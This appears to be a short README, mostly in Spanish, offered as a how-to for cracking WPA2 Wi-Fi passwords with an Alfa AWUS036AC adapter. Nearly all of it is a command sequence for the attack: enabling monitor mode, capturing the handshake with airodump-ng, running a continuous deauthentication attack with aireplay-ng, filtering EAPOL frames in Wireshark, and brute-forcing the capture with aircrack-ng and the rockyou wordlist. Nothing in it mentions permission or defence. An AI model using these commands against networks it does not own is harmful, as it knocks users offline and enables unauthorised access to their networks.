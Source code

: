 # Alfa AWUS036AC
    
   Cracking WPA2


### WiFi Passwords

  ![](Wifi-Hacking.png)
  
## Requisitos

Antes de nada, deberíamos de instalar los drivers necesarios de la antena ya que sin ellos no podremos usar el modo monitor.
En este caso he usado el diccionario Rockyou que viene preinstalado en kali linux.


  ![](Alfa-AWUS036AC.png)

# How To



## Comandos Utilizados:
    
   Ver versión del sistema:
        
       cat /etc/os-release
       
       uname -a
   
   Ver interfaces:
   
       iwconfig
   
   Matar procesos:
    
       sudo airmon-ng check kill

   Iniciar modo monitor:
   
       sudo airmon-ng start wlan0
       
   Verificar que modo está en uso:
   
       sudo airmon-ng
       iwconfig
   
   Obtener dirección MAC y el canal del AP:
   
       sudo airodump-ng wlan0
       sudo airodump-ng -w hack1 -c 2 --bssid 00:00:00:00:00:00 wlan0 
    
   2nd Window - deauth attack:
   
       sudo aireplay-ng --deauth 0 -a 00:00:00:00:00:00 wlan0
   
   Abrir Wireshark para analizar el archivo capturado:
   
       wireshark hack1-01.cap
   
   Filtro de mensajes usado en wireshark:
   
       eapol
   
   Stop modo monitor:
   
       airmon-ng stop wlan0

   Cambiar canal:
   
       sudo airmon-ng wlan0 channel X

   Fuerza bruta:
   
       sudo aircrack-ng capture1-01.cap -w /usr/share/wordlists/rockyou.txt


![](Imagen1.png)


